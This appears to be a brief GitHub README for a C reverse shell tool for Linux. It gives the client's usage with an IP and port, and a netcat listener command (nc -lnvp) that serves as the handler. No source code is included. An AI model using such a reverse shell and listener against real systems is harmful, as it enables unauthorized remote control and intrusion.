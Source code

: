 # SimpleReverseShellC

This is a simple Reverse Shell written for linux platform execution.

## Client Usage:

./linuxClient [IP] [PORT]

Where <IP> and <PORT> will default to the default defines if no paramters are passed.


## Handler current Usage (until custom handler work begins):

nc -lnvp [PORT]
